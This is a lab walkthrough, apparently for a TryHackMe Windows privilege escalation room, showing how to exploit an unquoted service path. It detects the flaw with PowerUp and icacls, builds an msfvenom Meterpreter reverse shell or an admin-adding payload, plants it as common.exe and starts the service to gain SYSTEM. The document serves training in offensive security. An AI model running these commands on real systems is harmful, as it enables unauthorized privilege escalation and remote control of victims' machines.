





# Unquoted Service Path

When the executable path for a service contains spaces and is not enclosed in quotes, the potential exists for privilege escalation (to the privilege level running the service). This requires permission to write to a directory in the (broken) executable path that will be called when the service is loaded.

## Step 1: Detection

Begin by running PowerUp.ps1

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
PS C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```



We can utilize `icacls` to determine the best directory to place the exploit, working in the following order:

- C:\Program( Files)
- C:\Program Files\Unquoted( Path Service)
- C:\Program Files\Unquoted Path Service\Common( Files)

```bash
C:\Users\user> icacls "C:\Program Files"
// No go

C:\Users\user> icacls "C:\Program Files\Unquoted Path Service"
// Located (F) permission for BUILTIN\Users

```



Since we have write permissions to "C:\Program Files\Unquoted Path Service" we should be able to place an executable in that directory named “common.exe” which will execute before the application attempts to load “unquotedservice.exe” in the "C:\Program Files\Unquoted Path Service\Common Files" directory.

## Step 2: Exploitation

Start a Meterpreter multi handler

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Create reverse shell payload with `MSFvenom`

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.48.44 LPORT=4444 -f exe -o common.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: common.exe
```

Note: the payload could have also be set to add `user` to the `administrators` local group

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

Upload the payload to the target machine



Place in the “C:\Program Files\Unquoted Path Service\” directory



Now we can start the service and get a reverse shell

```bash
C:\Users\user> sc start unquotedsvc
```




Note: we get the shell as SYSTEM but the shell dies right away. We need to migrate the shell first.
